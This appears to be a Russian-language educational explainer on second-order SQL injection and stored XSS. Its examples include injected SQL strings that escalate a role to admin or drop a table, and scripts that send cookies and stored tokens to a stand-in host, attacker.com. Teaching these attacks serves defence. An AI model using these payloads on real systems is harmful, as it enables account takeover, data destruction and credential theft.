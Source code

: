 # **Что такое уязвимости второго порядка?**

**Уязвимости второго порядка (Second-Order Vulnerabilities)** — это атаки, при которых вредоносные данные сначала сохраняются в системе, а затем активируются позже, когда эти данные используются или обрабатываются другим компонентом системы.

### **Ключевое отличие от атак первого порядка:**

|Параметр|Первый порядок|Второй порядок|
|---|---|---|
|**Время выполнения**|Немедленно|Отложенно|
|**Точка инъекции** ≠ **Точка выполнения**|Одна и та же|Разные|
|**Сложность обнаружения**|Относительно проще|Сложнее|

---

## **SQL Injection второго порядка**

### **Механизм:**

1. **Фаза внедрения:** Атакующий вводит вредоносный SQL-код, который сохраняется в БД
    
2. **Фаза выполнения:** Позже приложение извлекает эти данные и использует в SQL-запросе без санитизации
    

### **Пример сценария:**

**1. Регистрация пользователя:**
``` sql
-- Атакующий регистрируется с именем:
"admin' -- "

-- Это сохраняется в БД:
INSERT INTO users (username, password) VALUES ('admin'' -- ', 'hacker_password');
```
**2. Функция смены пароля администратором:**
```sql
-- Администратор пытается сбросить пароль пользователя:
UPDATE users SET password = 'new_password' WHERE username = 'input_username';

-- Подставляется значение из БД:
UPDATE users SET password = 'new_password' WHERE username = 'admin' -- ';
```
**Результат:** Пароль сбрасывается для пользователя `admin`, а не для атакующего!

### **Другие сценарии SQLi второго порядка:**

**Внедрение через email:**
```sql
-- При регистрации:
Email: "test@test.com'; UPDATE users SET role='admin' WHERE email='test@test.com'--"

-- При отправке письма с подтверждением:
SELECT email FROM users WHERE id=123; 
-- Позже используется в запросе рассылки...
```
**Внедрение через комментарии:**
```sql
-- Комментарий к товару:
"Great product!'; DROP TABLE orders--"

-- При формировании отчета администратором...
```

---

## **XSS второго порядка (Stored/Persistent XSS)**

### **Механизм:**

1. **Фаза внедрения:** Атакующий сохраняет вредоносный JavaScript в системе
2. **Фаза выполнения:** Жертва загружает страницу, содержащую этот скрипт

### **Примеры:**

**1. XSS в профиле пользователя:**
```html
<!-- Атакующий вставляет в поле "О себе": -->
<script>
fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>

<!-- Или более скрытно: -->
<img src="x" onerror="stealData()">
```
**2. XSS в комментариях:**
```html
// Сохраняется в комментарии к статье
<script>
var i = new Image();
i.src = "http://attacker.com/log?data=" + encodeURIComponent(localStorage.getItem('tokens'));
</script>
```
**3. XSS через загружаемые файлы:**
```txt
<!-- Атакующий загружает HTML-файл как "документ" -->
<!-- При просмотре файла выполняется скрипт -->
```

---

## **Почему уязвимости второго порядка опасны?**

### **1. Сложность обнаружения:**

- Статические сканеры могут не найти уязвимость
- Ручное тестирование требует понимания полного flow данных
- Code review сложно отследить все пути данных

### **2. Высокий impact:**

- **Эскалация привилегий:** пользователь → администратор
- **Кража данных** всех пользователей
- **Цепные атаки:** комбинация нескольких уязвимостей

### **3. Долгосрочное воздействие:**

- Данные могут "лежать" в системе месяцами
- Активация при определенных условиях
- Сложно очистить все зараженные данные

---